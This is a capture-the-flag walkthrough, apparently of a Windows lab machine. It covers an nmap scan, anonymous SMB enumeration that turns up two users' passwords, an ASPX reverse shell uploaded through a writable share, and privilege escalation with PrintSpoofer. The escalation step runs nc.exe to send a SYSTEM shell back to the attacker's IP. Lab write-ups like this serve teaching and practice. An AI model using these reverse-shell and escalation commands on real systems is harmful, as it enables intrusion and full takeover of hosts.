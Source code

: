 # Relevant

## Scanning

 ```bash
furious 10.10.56.135
nmap -sC -sV -p 80,135,445,139,3389 -n 10.10.56.135 -oN targeted
 ```

![215504.png](215504.png)

## smb

```bash
smbclient -L 10.10.56.135 -N
smbclient -N //10.10.56.135/nt4wrksv
```

![211840.png](211840.png)

![214633.png](214633.png)

```
Bill - Juw4nnaM4n420696969!$$$
Bob - !P@$$W0rD!123
```

```bash

#download a reverse shell 
wget https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx

# we enter into the machine tu upload the shell
smbclient //10.10.106.15/nt4wrksv -U 'Bill%Juw4nnaM4n420696969!$$$'
put shell.aspx

# wait with nc
nc -lvp 4444
```

and we enter here http://10.10.106.15:49663/nt4wrksv/shell.aspx

```bat
type C:\Users\Bob\Desktop\user.txt
```

## Escalation privilege

ParrotOS (terminal 1)

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
cp /usr/share/windows-resources/binaries/nc.exe .
sudo impacket-smbserver a .
```

Parrot (Terminal 2)

```bash
# listening on port 5555
rlwrap nc -lvp 5555
```

Windows

```bat
cd C:\Windows\Temp
copy \\10.2.36.179\a\nc.exe .
copy \\10.2.36.179\a\PrintSpoofer64.exe .
PrintSpoofer64.exe -c "nc.exe 10.2.36.179 5555 -e cmd"
```

![005428.png](005428.png)

![002629.png](002629.png)

```bat
type C:\Users\Administrator\Desktop\root.txt
```

![001931.png](001931.png)